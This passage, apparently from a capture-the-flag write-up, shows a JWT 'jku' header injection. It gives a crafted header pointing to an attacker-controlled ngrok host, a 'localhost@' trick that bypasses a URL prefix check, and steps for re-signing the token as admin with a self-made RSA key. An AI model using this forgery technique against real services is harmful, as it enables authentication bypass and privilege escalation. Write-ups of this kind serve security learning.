


Here I tried to supply path to remote server, like this header:
```json
{
    "alg": "RS256",
    "jku": "http://localhost@b39990dfa400.ngrok-free.app/jwk.json",
    "typ": "JWT"
}
```

And so it does working! (note it require to start with `http://localhost`, so I bypassed it with `@`).

As you can see, we get the request in the `ngrok` tunnel


Then, I created pare of `RSA` keys, and copied as `jwk`, this file will be `jwk.json` on the server.

Lastly, we need to sign our new malformed payload with the private `RSA` key we just generated, using Burp suite everything is very easy. 
Of course, don't forget to change the payload from `guest` to `admin`.

And we get the FLAG!


**Flag:** **_`RM{4lw4y5_ch3ck_th3_JKU_C0rr3ctly}`_**
